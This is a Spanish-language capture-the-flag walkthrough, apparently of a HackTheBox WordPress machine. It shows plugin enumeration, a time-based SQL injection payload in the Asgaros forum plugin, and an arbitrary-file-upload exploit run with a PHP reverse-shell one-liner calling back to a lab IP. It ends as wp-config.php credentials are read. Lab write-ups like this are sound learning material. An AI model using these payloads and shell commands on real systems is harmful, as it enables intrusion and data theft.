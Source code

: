 El listado solo nos muestra los usuarios que ya conociamos de antes. Otra cosa con la que podriamos sacar información valiosa del **WordPress** sera enumerando sus **Plugins**, podemos hacerlo con **WPScan** que lo hace automaticamente, o tirar directamente de **WFUZZ** y con el diccionario de **SecLists** (/usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt):
![[Pasted image 20230815212114.png]]

Pero vemos que hay un tipo de **WAF** ( Web Application Firewall ) que nos bloquea cuando hacemos fuerza bruta. Otra forma de enumerar plugins, seria tirar directamente de **Curl** y **Grep** para filtrar por la ruta de **Plugins** que suele ser **/wp-content/plugins**:
¡![[Pasted image 20230815213449.png]]

Con este listado de plugins, ahora podemos pasar a intentar buscar vulnerabilidades para estos. Buscando por google, encontramos con el siguiente articulo que nos explica como explotar un **SQLi** para la versión que se esta usando de [Asgaros](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1), solo tendriamos que atender a la siguiente ruta:
```
/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(10)
```

Al hacer la petición, vemos que tarda los 10 segundos en responder asi que es vulnerable. Podemos scriptarnos algo en **Python3** para dumpear toda la base de datos o directamente tirar de **SQLmap**. Iremos tiro hecho, dado que inyecciones basadas en tiempo suelen demorar muchisimo tiempo.
Dentro de la base de datos, podemos enumerar plugins, uno de ellos es vulnerable y lleva por nombre **Download-From-Files**, si intentamos buscar por exploits para este plugins con **SearchSploit** podemos encontrar encontrar uno de tipo **Arbitrary File Upload**:
![[Pasted image 20230815214345.png]]

----------
#### Download From Files 1.48 - Arbitrary File Upload (WordPress Plugin Exploitation)  
Revisando el exploit, vemos que esta escrito en **Python3**, analizando un poco el codigo vemos que no esta contemplando si el sitio es **HTTP/S** pero podemos arreglarlo facilmente si importamos la libreria `import urllib3` y posteriormente, debajo de los `import's` agregamos esta linea `urllib3.disable_warnings()` y en todas las partes donde se realice una petición (ya se por GET o POST) vamos agregar un `verify=False`.

Ahora, simplemente creamos un archivo **.php**  que nos ejecute una **Reverse Shell**:
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.30/443 0>&1'"); ?>
```

Y con el script lo vamos a subir:
```
# python3 40934.py https://phoenix.htb ./shell.php
```

Esto, nos generara un output, el cual contendra la ruta del script en la web. Si nos ponemos en escucha y posteriormente visitamos la pagina vemos uqe nos cae la **Reverse Shell**

--------------
#### Cracking Hashes  
Si enumerarmos el **wp-config.php** (suele contener credenciales para la base de datos) podemos ver una credencial para a la base de datos:
![[Pasted image 20230815214429.png]]
